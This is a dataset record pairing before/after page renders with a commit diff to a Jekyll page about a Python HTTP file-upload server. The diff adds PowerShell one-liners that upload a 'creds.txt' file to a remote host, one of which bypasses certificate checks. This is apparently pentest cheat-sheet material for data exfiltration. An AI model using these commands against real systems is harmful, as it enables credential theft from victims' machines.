

Before and after one commit to MFNttps/mfnttps.github.io, a Jekyll site: the page built from _mfnttps/http-file_upload_python.md, in a window 1280 px wide, cut to the strip 187-956 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update http-file_upload_python.md

```diff
--- a/_mfnttps/http-file_upload_python.md
+++ b/_mfnttps/http-file_upload_python.md
@@ -15,8 +15,15 @@ functions:
           -n, --no-ssl          do not serve https / ssl
 
         UPLOAD:
-          (1) python3 http-server.py
-          (2) curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
+          Start the Server - python3 http-server.py
+          Pick your method:
+
+          - - - curl - - -
+          curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
+
+          - - - powershell - - -
+          powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
+          powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')
           (3) manually browsing to the ip and port
           (4) profit!
 resources: |
```
